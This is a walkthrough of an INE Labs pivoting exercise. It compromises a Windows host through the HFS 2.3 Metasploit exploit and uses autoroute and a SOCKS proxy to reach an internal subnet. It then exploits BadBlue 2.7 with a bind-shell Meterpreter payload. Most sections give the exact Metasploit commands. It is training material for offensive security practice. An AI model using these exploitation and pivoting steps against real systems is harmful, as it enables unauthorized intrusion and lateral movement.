








# LAB Pivoting — INE Labs

| Field      | Value              |
|------------|--------------------|
| Platform   | INE Labs           |
| OS         | Windows (Machine 1 + Machine 2) |
| Difficulty | Medium             |
| Tags       | HFS 2.3 RCE, Metasploit, Meterpreter, autoroute, SOCKS4a proxy, BadBlue 2.7, bind_tcp, pivoting |

---

## 1. Machine 1 — HFS 2.3 RCE

### Reconnaissance

```bash
nmap -sV <IP>
```



Identified **HFS (HTTP File Server) version 2.3** on port 80. HFS 2.3 has a well-documented Metasploit exploit for RCE via a crafted request to the template engine.

### Exploitation

Searched Metasploit and loaded the HFS module:



Configured the module:

```bash
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <MACHINE1-IP>
set RPORT 80
run
```



Meterpreter session received on Machine 1.





---

## 2. Network Discovery — Internal Segment

Checked network interfaces from the Meterpreter session to identify internal networks the compromised machine could reach:

```bash
ipconfig
# or in Meterpreter: run post/multi/gather/ipconfig
```



Machine 1 had two network interfaces: one facing our attacker network and one connected to an internal segment (`10.2.16.0/20`) inaccessible from Kali.

---

## 3. Pivoting Setup

### Autoroute

Added a route through the Meterpreter session to the internal subnet:

```bash
run autoroute -s 10.2.16.0/20
```

This makes all traffic destined for `10.2.16.0/20` route through the Meterpreter session — Metasploit modules can now reach the internal network.

### Internal Host Enumeration

Used Metasploit's TCP port scanner (more stable than proxychains for Meterpreter routing):

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.2.16.0/20
set PORTS 80,445,3389,8080,1-100
run
```



Discovered Machine 2 at `10.2.26.49` with port 80 open.

### SOCKS Proxy (for browser/external tool access)

```bash
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set SRVPORT 9050
set VERSION 4a
run -j
```

Configured proxychains to use `127.0.0.1:9050`. Now external tools (curl, browsers) could reach the internal network through the proxy.

---

## 4. Machine 2 — BadBlue 2.7 RCE via Bind Shell

### Service Identification

Used proxychains + curl to fingerprint Machine 2's web service:

```bash
proxychains curl -I http://10.2.26.49
```



Identified **BadBlue 2.7** — a file server application with a known RCE exploit (`passthru` parameter injection).

### Exploitation with bind_tcp

Because Machine 2 cannot reach Kali directly (it's on an isolated internal network), a **reverse shell** would fail — the connection would need to traverse a path that doesn't exist. Instead, used a **bind shell**: Machine 2 opens a port and waits for us to connect through the Meterpreter tunnel.

```bash
use exploit/windows/http/badblue_passthru
set RHOSTS 10.2.26.49
set PAYLOAD windows/meterpreter/bind_tcp
exploit
```

Metasploit connected to Machine 2 via the autorouted tunnel and received a Meterpreter session.

---

## Key Takeaways

**Autoroute + SOCKS proxy covers both Metasploit modules and external tools.** Autoroute handles routing for Metasploit modules natively. The SOCKS proxy is needed for everything else (curl, browsers, nmap via proxychains). Both should be set up together.

**Use `bind_tcp` when reverse shells can't reach back.** In isolated internal networks, the target can't initiate connections back to the attacker. A bind shell has the target listen on a port; you connect through the existing tunnel. Match the payload direction to the network topology.

**Metasploit's port scanner is more reliable than proxychains + nmap for internal enumeration.** Proxychains adds latency and timing issues that cause nmap to miss open ports. Metasploit's `scanner/portscan/tcp` runs through the Meterpreter session directly and is far more accurate.

**HFS 2.3 and BadBlue 2.7 are legacy Windows applications still found in real environments.** Both have public Metasploit exploits with high reliability. Identifying application versions via HTTP headers or error pages is a prerequisite for matching them to known exploits.
